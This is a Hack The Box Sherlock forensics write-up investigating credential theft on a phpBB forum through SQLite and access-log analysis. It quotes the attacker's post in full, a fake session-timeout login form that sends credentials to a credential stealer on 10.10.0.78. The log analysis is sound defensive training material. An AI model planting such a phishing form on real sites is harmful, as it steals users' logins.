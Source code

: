 ```yaml
---
tags:
  - htb
  - sherlock
  - dfir
  - access
  - log
  - phpbb
  - sqlite3
  - phishing
  - linux
---
```

### Scenario
An external contractor has accessed the internal forum here at Forela via the Guest Wi-Fi, and they appear to have stolen credentials for the administrative user! We have attached some logs from the forum and a full database dump in sqlite3 format to help you in your investigation.

### Artifacts
|Artifact|MD5 Hash|Password|
|----|----|----|
|bumblebee.zip|ba06e26779ead4b6299b6a188d11fc02|hackthebkue|
|incident.tgz|1b301c2fb2a1232758aca31588506edf|n/a|

### Tools Used
+ SQLite Browser - For `phpbb.sqlite3` database analysis.
+ Linux Terminal - For `access.log` analysis.

### Forensic Analysis

**Analyzing SQLite3 Database**

The contractor's user information are listed below.
![[Pasted image 20240613104708.png]]


The contractor's post information for the forum are listed below.
![[Pasted image 20240613105158.png]]

Post contents malicious part
```html
<--snip-->
<div id="page-body" class="page-body" role="main">
<div class="panel">
<div class="inner">

<div class="content">
<h3>Session Timeout</h3> <br /> <br />
<p>Your session token has timed out in order to proceed you must login again.</p>
</div>

</div>
</div>

<form action="http://10.10.0.78/update.php" method="post" id="login" data-focus="username" target="hiddenframe">
<div class="panel">
<div class="inner">
<div class="content">

<h2 class="login-title">Login</h2>
<fieldset class="fields1">

<dl>
<dt><label for="username">Username:</label></dt>
<dd><input type="text" tabindex="1" name="username" id="username" size="25"
value="" class="inputbox autowidth"></dd>
</dl>

<dl>
<dt><label for="password">Password:</label></dt>
<dd><input type="password" tabindex="2" id="password" name="password" size="25" class="inputbox autowidth" autocomplete="off"></dd>
</dl>

<dl>
<dd><label for="autologin"><input type="checkbox" name="autologin"
id="autologin" tabindex="4">Remember me</label></dd>
<dd><label for="viewonline"><input type="checkbox" name="viewonline"
id="viewonline" tabindex="5">Hide my online status this session</label></dd>
</dl>

<dl>
<dt>&nbsp;</dt>
<dd> <input type="submit" name="login" tabindex="6" value="Login"
class="button1" onclick="sethidden()"></dd>
</dl>

</fieldset class="fields1">
</div>
</div>
</div>
</form>
</div>
```

At this point we have identified the malicious IP `10.10.0.78`, and was used to access the forum as well as staging a credential stealer namely `update.php`. 

Browsing the `phpbb_log` table we found additional information when the contractor logged in as Administrator. The real Administrator's IP was `10.255.254.2`. Upon Investigating the `access.log` artifact we can verify their information like User-Agent, which URLs were visited to get a sense of baseline activity which are normal for an Administrator user.

Then we can use those information against the threat actor to accurately paint a picture of the malicious activities that was done.

**Analyzing `access.log`**

An access.log file can have a vast volume of data it is recommended to use Splunk or ElasticSearch or any kind of SIEM tool to quickly find and triage information. But, in our case we have relatively small amount of data and we can use basic Linux commands to filter and search for the information we are looking for.

Filtering the access.log file is very helpful to find the actual data we are looking for. For example, we don't need the data when a page loads and request are made to load CSS, images, assets to render the UI.

We can easily filter those types of requests using `egrep`. The command for filtering assets related data is given below:
```bash
cat access.log | egrep -v "/(assets|style|images)"
```

Here `-v` returns everything except the matching pattern.

Let's search for the legit Administrator's User Agent information.
```bash
$ cat access.log | egrep -v "/(assets|style|images)" | egrep -i 10.255.254.2 | head -n1
10.255.254.2 - - [25/Apr/2023:12:08:42 +0100] "GET /adm/index.php?sid=ac1490e6c806ac0403c6c116c1d15fa6&i=12 HTTP/1.1" 403 9412 "http://10.10.0.27/adm/index.php?sid=ac1490e6c806ac0403c6c116c1d15fa6&i=1" "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.0.0 Safari/537.36"
```

Let's search for the adversary's User Agent information.
```bash
$ cat access.log | egrep -v "/(assets|style|images)" | egrep -i 10.10.0.78 | head -n1 
10.10.0.78 - - [25/Apr/2023:12:07:39 +0100] "GET / HTTP/1.1" 200 4205 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:106.0) Gecko/20100101 Firefox/106.0"
```

The contractor added himself to the administrator group.
```bash
$ cat access.log | egrep -v "/(assets|style|images)" | egrep -i 10.10.0.78 | grep adm | grep acp_groups | grep POST
10.10.0.78 - - [26/Apr/2023:11:53:51 +0100] "POST /adm/index.php?i=acp_groups&sid=eca30c1b75dc3eed1720423aa1ff9577&icat=12&mode=manage&g=5 HTTP/1.1" 200 2623 "http://10.10.0.27/adm/index.php?i=acp_groups&sid=eca30c1b75dc3eed1720423aa1ff9577&icat=12&mode=manage&action=list&g=5" "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/112.0"
```

The contractor also sent two requests to backup the database.
```bash
$ cat access.log | egrep -v "/(assets|style|images)" | egrep -i 10.10.0.78 | grep adm | grep action=download            
10.10.0.78 - - [26/Apr/2023:11:54:22 +0100] "POST /adm/index.php?i=acp_database&sid=eca30c1b75dc3eed1720423aa1ff9577&mode=backup&action=download HTTP/1.1" 200 2463 "http://10.10.0.27/adm/index.php?sid=eca30c1b75dc3eed1720423aa1ff9577&i=acp_database&mode=backup" "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/112.0"
10.10.0.78 - - [26/Apr/2023:11:54:24 +0100] "GET /adm/index.php?i=acp_database&sid=eca30c1b75dc3eed1720423aa1ff9577&mode=backup HTTP/1.1" 200 3771 "http://10.10.0.27/adm/index.php?i=acp_database&sid=eca30c1b75dc3eed1720423aa1ff9577&mode=backup&action=download" "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/112.0"
10.10.0.78 - - [26/Apr/2023:11:54:30 +0100] "POST /adm/index.php?i=acp_database&sid=eca30c1b75dc3eed1720423aa1ff9577&mode=backup&action=download HTTP/1.1" 200 2474 "http://10.10.0.27/adm/index.php?i=acp_database&sid=eca30c1b75dc3eed1720423aa1ff9577&mode=backup" "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/112.0"
10.10.0.78 - - [26/Apr/2023:11:56:28 +0100] "GET /adm/index.php?i=acp_database&sid=eca30c1b75dc3eed1720423aa1ff9577&mode=backup HTTP/1.1" 200 3770 "http://10.10.0.27/adm/index.php?i=acp_database&sid=eca30c1b75dc3eed1720423aa1ff9577&mode=backup&action=download" "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/112.0"
```

And finally they downloaded the database backup.
```bash
$ cat access.log | egrep -v "/(assets|style|images)" | egrep -i 10.10.0.78 | grep .sql
10.10.0.78 - - [26/Apr/2023:12:01:38 +0100] "GET /store/backup_1682506471_dcsr71p7fyijoyq8.sql.gz HTTP/1.1" 200 34707 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/112.0"
```

The database backup file size was `34707` bytes (34.7 KB) in size.

### Summary
The contractor used his account to stage a phishing page in the internal forum of Forela. Then he stole the Administrator's credential using the phishing page and exfiltrated the data using a credential stealer (httx://10.10.0.78/update.php) hosted on the IP `10.10.0.78`. Then, they used the stolen Administrator credential created an account (apoole) for persistence. Then they backed up and downloaded the database.